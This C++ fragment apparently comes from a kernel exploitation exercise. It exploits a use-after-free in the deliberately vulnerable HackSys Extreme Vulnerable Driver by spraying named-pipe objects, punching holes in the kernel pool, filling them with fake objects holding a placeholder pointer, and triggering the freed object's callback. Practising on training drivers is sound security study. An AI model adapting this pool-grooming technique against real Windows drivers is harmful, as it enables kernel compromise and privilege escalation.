 ```cpp
    HANDLE hDriver = CreateFile(L"\\\\.\\HacksysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE) {
        Error("CreateFile");
    }

    printf("[>] Spraying objects for pool defragmentation..\n");
    std::vector<PipeHandles> defragPipeHandles;
    for (int i = 0; i < 20000; i++) {
        PipeHandles pipeHandle = CreatePipeObject();
        defragPipeHandles.push_back(pipeHandle);
    }

    printf("[>] Spraying objects in sequential allocation..\n");
    std::vector<PipeHandles> seqPipeHandles;
    for (int i = 0; i < 60000; i++) {
        PipeHandles pipeHandle = CreatePipeObject();
        seqPipeHandles.push_back(pipeHandle);
    }

    printf("[>] Creating object holes..\n");
    for (int i = 0; i < seqPipeHandles.size(); i++) {
        if (i % 2 == 0) {
            PipeHandles handles = seqPipeHandles[i];
            CloseHandle(handles.read);
            CloseHandle(handles.write);
        }
    }

    printf("[>] Allocating UAF Object\n");
    if (!DeviceIoControl(hDriver, ALLOCATE_UAF_IOCTL, NULL, NULL, NULL, 0, &bytesWritten, NULL)) {
        //Error("Allocate UAF Object");
    }

    printf("[>] Freeing UAF Object\n");
    if (!DeviceIoControl(hDriver, FREE_UAF_IOCTL, NULL, NULL, NULL, 0, &bytesWritten, NULL)) {
        Error("Free UAF Object");
    }

    printf("[>] Filling holes with custom objects..\n");
    BYTE uBuffer[0x60] = { 0 };
    *(QWORD*)(uBuffer) = (QWORD)(0xdeadc0de);
    for (int i = 0; i < 30000; i++) {
        if (!DeviceIoControl(hDriver, FAKE_OBJECT_IOCTL, uBuffer, sizeof(uBuffer), NULL, 0, &bytesWritten, NULL)) {
            Error("Allocate Custom Object");
        }
    }

    printf("[>] Triggering callback on UAF object..\n");
    if (!DeviceIoControl(hDriver, USE_UAF_IOCTL, NULL, NULL, NULL, 0, &bytesWritten, NULL)) {
        Error("Use UAF Object");
    }
    return 0;
}
```

